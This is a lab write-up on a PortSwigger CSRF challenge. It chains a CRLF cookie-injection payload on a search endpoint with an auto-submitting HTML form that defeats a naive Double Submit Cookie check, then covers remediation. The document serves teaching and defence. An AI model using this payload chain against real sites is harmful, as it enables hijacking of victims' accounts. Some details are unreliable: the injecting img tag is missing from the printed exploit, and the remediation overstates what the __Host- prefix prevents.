






## Challenge Overview

* **Challenge Name**: CSRF where token is duplicated in cookie
* **Category**: Cross-Site Request Forgery (CSRF) / Client-Side Security
* **Level**: Practitioner
* **Target Endpoint**: `POST /my-account/change-email`
* **Provided Credentials**: `wiener:peter`
* **Objective**: Exploit a naive Double Submit Cookie CSRF defense to change the victim's email address by chaining with a CRLF HTTP response header injection vulnerability on the search endpoint to overwrite the victim's `csrf` cookie with an arbitrary value.

---

## 1. Core Fundamentals

### 1.1. The Double Submit Cookie Pattern

In high-throughput or stateless web architectures (such as microservices, serverless backends, and API gateways), storing and synchronizing server-side session state for CSRF tokens introduces significant memory and caching overhead.

To maintain a **stateless** defense, web developers frequently adopt the **Double Submit Cookie Pattern**:
1. When a user establishes a session, the server generates a pseudorandom value and sends it to the client inside a cookie (e.g., `Set-Cookie: csrf=RANDOM_TOKEN`).
2. When the client submits a sensitive state-changing HTML form, client-side scripts or server templates copy the cookie value into a hidden request body parameter (`<input type="hidden" name="csrf" value="RANDOM_TOKEN">`).
3. Upon receiving the incoming request, the server executes a stateless verification:
   $$\text{Validation Check: } \text{Request.Cookies["csrf"]} \stackrel{?}{=} \text{Request.Body["csrf"]}$$
4. If the cookie value matches the body parameter, the server assumes the request was legitimately submitted by the user and executes the mutation.

### 1.2. The Naive Implementation Fallacy

The core security hypothesis of the Double Submit Cookie pattern is:
> *"An attacker hosted on an external origin (`attacker.com`) is prevented by the Same-Origin Policy (SOP) from reading the victim's cookies on `target.com`. Therefore, the attacker cannot steal the token to forge a valid form."*

#### The Fatal Architectural Flaw:
The naive implementation makes a dangerous oversight: **The attacker does not need to READ the victim's cookie if they can OVERWRITE or INJECT it.**

Because the naive server validation performs a simple, unauthenticated string comparison:

```pseudo
function validateDoubleSubmit(request):
    cookieToken = request.cookies.get("csrf")
    bodyToken = request.body.get("csrf")
    
    // FATAL FLAW: Only checks equality, not authenticity or cryptographic origin!
    if cookieToken != null and cookieToken == bodyToken:
        return true // PASS!
    return false
```

The server **does not verify whether the token was genuinely issued by the server**, nor does it verify that the token belongs to the session identified in `Cookie: session=...`. 

If an attacker can exploit a secondary vulnerability (such as CRLF / HTTP Header Injection) to plant an arbitrary cookie `csrf=pwned123` into the victim's browser, the attacker can simultaneously forge a form containing `csrf=pwned123`. The server verifies that `pwned123 == pwned123`, and the exploit succeeds completely.

### 1.3. Key Architectural Contrast: Lab 5 vs. Lab 6

| Metric | Lab 5 (Token Tied to Non-Session Cookie) | Lab 6 (Token Duplicated in Cookie) |
| :--- | :--- | :--- |
| **Server State** | **Stateful:** Server maintains a registry of valid token pairs (`csrfKey` $\rightarrow$ `csrf`) in a database/cache. | **Stateless:** Server stores **zero state**. It performs a simple string equality check between cookie and body. |
| **Token Sourcing** | **Legitimate Harvest Required:** Attacker must harvest a real, valid token pair from their own account (`wiener`). | **Arbitrary Generation:** Attacker can **invent any arbitrary string** (`pwned123`) without harvesting anything. |
| **Cookie Injected** | Injects the tracking key: `Set-Cookie: csrfKey=...` | Injects the duplicated token: `Set-Cookie: csrf=...` |

### 1.4. The Three Classical Preconditions for CSRF

```text
+-----------------------------------------------------------------------------------------+
|                                CSRF Pre-Conditions Matrix                               |
+-----------------------------------------------------------------------------------------+
| Condition 1: Relevant Action            --> YES: POST /my-account/change-email          |
| Condition 2: Cookie-based Session       --> YES: Authenticated via "Cookie: session=..."|
| Condition 3: No Unpredictable Data      --> BYPASSED: Server accepts any arbitrary      |
|                                             token string as long as cookie == body      |
+-----------------------------------------------------------------------------------------+
| VERDICT: VULNERABLE VIA CHAINED DOUBLE-SUBMIT BYPASS + CRLF COOKIE INJECTION            |
+-----------------------------------------------------------------------------------------+
```

---

## 2. Attack Architecture / Threat Model

### 2.1. Trust Boundaries & Stateless Verification Flaw

The vulnerability arises from two distinct architectural oversights:
1. **Unauthenticated Integrity Check:** The application assumes that any cookie bearing the name `csrf` must have originated from the server, neglecting cryptographic message authentication (MAC).
2. **Cookie Scoping / Header Injection Primitive:** An unvalidated parameter on the search feature allows attackers to manipulate HTTP response boundaries and set arbitrary cookies on the target domain.

### 2.2. Attack Flow Diagram

```text
[ Phase 0: Arbitrary Token Selection ]
Attacker selects an arbitrary token value: "pwned123" (No harvesting required!)

[ Phase 1: Cookie Injection via CRLF ]
Victim ──► Visits Exploit URL (/exploit)
   │
   │  Exploit page loads  targeting search endpoint with CRLF payload:
   ▼
Target Application Server (Search Feature)
   │  GET /?search=test%0d%0aSet-Cookie:%20csrf=pwned123%3b%20SameSite=None
   │
   └── Returns HTTP 200 OK:
       Set-Cookie: LastSearchTerm=test
       Set-Cookie: csrf=pwned123; SameSite=None
   ▼
[ Victim Cookie Jar Updated: csrf cookie overwritten with "pwned123" ]

[ Phase 2: Form Dispatch via onerror ]
Image fails to decode as graphic data ──► onerror handler executes document.forms[0].submit()
   │
   │  Cross-origin POST /my-account/change-email:
   ▼
Target Application Server (Change Email Endpoint)
   │
   ├── Reads Cookie: session=VICTIM_SESSION  ──► Authenticated as Victim!
   ├── Reads Cookie: csrf=pwned123           ──┐
   ├── Reads Body:   csrf=pwned123           ──┴─► Double-Submit Check: MATCH!
   └── Server commits email update!
   ▼
[ State Mutated: Victim's Email Successfully Changed to pwned_expert@gmail.com ]
```

### 2.3. Root Cause Analysis

1. **Absence of Token Cryptographic Verification:** The Double Submit Cookie implementation checks only `Cookie(csrf) == Body(csrf)` without validating a digital signature or server-side state.
2. **Unsanitized HTTP Response Headers:** The search endpoint reflects user input into `Set-Cookie: LastSearchTerm=...` without sanitizing `%0d%0a` (`\r\n`) characters.

---

## 3. Vulnerability Exploitation

### Phase 1: Baseline Request & Cookie Architecture Analysis

We authenticate as `wiener:peter` and examine the baseline traffic in **Burp Suite Proxy / Repeater**.

First, we inspect the search functionality:



```http
GET /?search=abcd HTTP/2
Host: 0ae3007803de54cb8099442500a80018.web-security-academy.net
Cookie: LastSearchTerm=abcd; csrf=rHp22qDvrDUd3qpkjG57ghmCWky82kzm; session=dLfQb47lynXwmn8mCRCTqqZTTS80rDCK
```
* **Server Response:**
  ```http
  HTTP/2 200 OK
  Set-Cookie: LastSearchTerm=abcd; Secure; HttpOnly
  ```
The `search` query parameter is directly reflected into the `Set-Cookie: LastSearchTerm=...` header. Furthermore, the cookie storing the CSRF token is named **`csrf`**.

Next, we inspect the baseline email change request:



```http
POST /my-account/change-email HTTP/2
Host: 0ae3007803de54cb8099442500a80018.web-security-academy.net
Cookie: LastSearchTerm=abcd; csrf=rHp22qDvrDUd3qpkjG57ghmCWky82kzm; session=dLfQb47lynXwmn8mCRCTqqZTTS80rDCK
Content-Length: 65
Content-Type: application/x-www-form-urlencoded

email=wiener123%40gmail.com&csrf=rHp22qDvrDUd3qpkjG57ghmCWky82kzm
```

#### Critical Architectural Discovery:
* **Cookie Header:** `csrf=rHp22qDvrDUd3qpkjG57ghmCWky82kzm`
* **Body Parameter:** `csrf=rHp22qDvrDUd3qpkjG57ghmCWky82kzm`
* The token in the cookie is **identical** to the token in the POST body. This confirms the implementation of the Double Submit Cookie pattern.

---

### Phase 2: Proving Naive Double Submit via Arbitrary Token Injection

To test whether the server maintains a database of valid tokens or merely performs a stateless equality check, we modify the request in **Burp Repeater**:
* Replace the cookie token with an arbitrary value: `csrf=fake123`.
* Replace the body token with the exact same arbitrary value: `csrf=fake123`.
* Set email to `wiener99@gmail.com`.



```http
POST /my-account/change-email HTTP/2
Host: 0ae3007803de54cb8099442500a80018.web-security-academy.net
Cookie: LastSearchTerm=abcd; csrf=fake123; session=dLfQb47lynXwmn8mCRCTqqZTTS80rDCK
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

email=wiener99%40gmail.com&csrf=fake123
```

#### Server Response:
```http
HTTP/2 302 Found
Location: /my-account?id=wiener
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

#### Breakthrough Finding:
The server returns `HTTP/2 302 Found` and successfully commits the email update! 
This definitively proves:
1. The server **does not check if the token was issued by the backend**.
2. The server **does not cryptographically sign or validate the token**.
3. Any arbitrary string is accepted as long as `Cookie("csrf") == Body("csrf")`.

---

### Phase 3: Proving Cookie Injection via CRLF in Search Endpoint

We now verify that we can inject this arbitrary `csrf` cookie into a user's browser using CRLF Injection on the search endpoint.

In Burp Repeater, we inject `%0d%0a` into the `search` parameter:



```http
GET /?search=test%0d%0aSet-Cookie:%20csrf=fake_token_123%3b%20SameSite=None HTTP/2
Host: 0ae3007803de54cb8099442500a80018.web-security-academy.net
```

#### Server Response:
```http
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrf=fake_token_123; SameSite=None; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
```

The server unescapes `%0d%0a` into real CRLF control bytes and splits the response header, emitting an independent `Set-Cookie: csrf=fake_token_123` header.

---

### Phase 4: Weaponizing the Chained Exploit on Exploit Server

We navigate to the PortSwigger **Exploit Server** (`https://exploit-...exploit-server.net/exploit`) and craft the payload. We select an arbitrary string for our token: **`pwned123`**.



#### Exploit Server Payload Configuration:
* **File:** `/exploit`
* **Head:**
  ```http
  HTTP/1.1 200 OK
  Content-Type: text/html; charset=utf-8
  ```
* **Body:**
  ```html
  <form id="csrfForm" action="https://0ae3007803de54cb8099442500a80018.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned_expert@gmail.com" />
      <input type="hidden" name="csrf" value="pwned123" />
  </form>

  
  ```

#### Detailed Breakdown of Exploit Mechanics:
1. **The Arbitrary Token (`pwned123`):**
   * Unlike Lab 5, we do not need to harvest fresh tokens from our account. We choose the literal string `pwned123` and supply it to both the form body and the injected cookie.
2. **The `<form id="csrfForm">` Element:**
   * Action targets the vulnerable endpoint: `https://0ae3007803de54cb8099442500a80018.web-security-academy.net/my-account/change-email`.
   * Sets `method="POST"`.
   * Body carries the attacker-controlled email (`pwned_expert@gmail.com`) and matching token (`pwned123`).
3. **The `` Tag (CRLF Cookie Injection):**
   * Forces the browser to issue a GET request to the search endpoint carrying the payload:
     `/?search=test%0d%0aSet-Cookie:%20csrf=pwned123%3b%20SameSite=None`
   * **Why `%0d%0a` is mandatory:** Browser HTML parsers automatically strip raw newline characters from URL attributes (`src`, `href`). Percent-encoding (`%0d%0a`) ensures the byte sequence safely crosses the network and reaches the backend HTTP parser, which unescapes it into real `\r\n` characters.
   * `SameSite=None`: Guarantees that the injected cookie will be transmitted across origins in subsequent cross-site requests.
4. **The `onerror` Synchronization Handler:**
   * Because `/?search=...` returns an HTML page instead of an image file, the browser fails to render an image and fires the `onerror` event.
   * **Flawless Execution Timing:** The `onerror` event triggers **only after** the HTTP response headers from the search request have been fully parsed and processed by the browser. This guarantees that `csrf=pwned123` is securely written into the browser's cookie jar before `document.getElementById('csrfForm').submit()` fires the POST request.

---

### Phase 5: Delivering Exploit to Victim & Verification

1. Click **Store** to persist the exploit response at `/exploit`.
2. Click **Deliver exploit to victim**.



#### Execution Flow & Lab Resolution:
1. The simulated victim bot visits `/exploit` while holding an active authenticated session (`Cookie: session=...`).
2. The browser evaluates the `` tag and issues the search request with CRLF injection.
3. The server responds with `Set-Cookie: csrf=pwned123`, overwriting the victim's existing `csrf` cookie.
4. The image resource fails to decode, immediately triggering the `onerror` event handler.
5. `document.getElementById('csrfForm').submit()` dispatches the cross-origin POST request.
6. The victim's browser attaches the victim's `session` cookie (establishing identity) and the newly injected `csrf=pwned123` cookie.
7. The POST body transmits `csrf=pwned123` alongside the target email.
8. The backend evaluates: `Cookie("pwned123") == Body("pwned123")` $\rightarrow$ **MATCH**.
9. The backend mutates the victim's email address to `pwned_expert@gmail.com`.
10. PortSwigger verifies the state change on the victim account and awards the **LAB Solved** banner (*Figure 6*).

---

## 4. Remediation Strategies

Remediating Double Submit Cookie vulnerabilities requires implementing cryptographic authentication on tokens, protecting cookies against injection, and sanitizing transport headers.

```text
+-----------------------------------------------------------------------------------------+
|                              Multi-Layered CSRF Defenses                                |
+-----------------------------------------------------------------------------------------+
| 1. Cryptographic Signature : Implement HMAC-signed Double Submit Cookie pattern         |
| 2. Cookie Hardening        : Use __Host- cookie prefixes and SameSite=Lax attributes    |
| 3. CRLF Sanitization       : Strip \r and \n characters from all reflected headers      |
| 4. Step-Up Security        : Enforce password re-authentication on sensitive mutations  |
+-----------------------------------------------------------------------------------------+
```

### 4.1. Upgrade to Signed / Encrypted Double Submit Cookie (HMAC)

If an application requires a stateless CSRF architecture, it **must never rely on plain string equality**. The server must cryptographically sign the cookie token using a server-side secret key (HMAC):

$$\text{csrf\_cookie} = \text{HMAC-SHA256}(\text{SessionID} \parallel \text{Timestamp}, \text{ServerSecretKey})$$

#### Verification Workflow:
1. The server reads `Request.Cookies["csrf"]`.
2. The server verifies that the HMAC signature is mathematically valid using `ServerSecretKey` and matches the user's `SessionID`.
3. If an attacker injects an arbitrary value like `pwned123`, it will lack a valid cryptographic signature and be rejected immediately (`403 Forbidden`).

```javascript
// SECURE HMAC DOUBLE SUBMIT VALIDATION (Node.js / Express)
const crypto = require('crypto');
const SERVER_SECRET = process.env.CSRF_SECRET_KEY;

function verifySignedDoubleSubmit(req, res, next) {
    const cookieToken = req.cookies['__Host-csrf'];
    const bodyToken = req.body['csrf'];

    if (!cookieToken || !bodyToken || cookieToken !== bodyToken) {
        return res.status(403).json({ error: "CSRF token mismatch." });
    }

    // Verify cryptographic integrity: token format is "randomVal.signature"
    const [randomVal, signature] = cookieToken.split('.');
    const expectedSig = crypto.createHmac('sha256', SERVER_SECRET)
                              .update(`${req.session.userId}:${randomVal}`)
                              .digest('hex');

    if (signature !== expectedSig) {
        return res.status(403).json({ error: "Invalid CSRF token signature." });
    }

    next();
}
```

### 4.2. Cookie Hardening with `__Host-` Prefix

Prefix the CSRF cookie with `__Host-`:
```http
Set-Cookie: __Host-csrf=TOKEN; Secure; Path=/; SameSite=Lax
```
The `__Host-` prefix instructs browsers to enforce strict security constraints:
* The cookie cannot be set or overwritten from any subdomain.
* The cookie must have `Path=/`.
* The cookie must be served exclusively over HTTPS (`Secure`).
This effectively blocks attackers from injecting or shadowing cookies from neighboring origins or through header manipulation.

### 4.3. Prevent HTTP Response Header Injection (CRLF Sanitization)

Never concatenate raw user input into HTTP response headers. All input reflected into headers must be stripped of carriage return and line feed control characters:

```javascript
// SECURE HEADER SANITIZATION (Node.js)
const sanitizedSearch = searchTerm.replace(/[\r\n]/g, '');
res.cookie('LastSearchTerm', sanitizedSearch, { 
    httpOnly: true, 
    secure: true, 
    sameSite: 'lax' 
});
```

### 4.4. SameSite Cookie Attributes & Re-Authentication

* Apply `SameSite=Lax` or `SameSite=Strict` to both `session` and `csrf` cookies. Under `SameSite=Lax`, browsers withhold cookies on cross-origin POST form submissions.
* Mandate **re-authentication** (prompting for the user's current password) for all high-risk account updates.
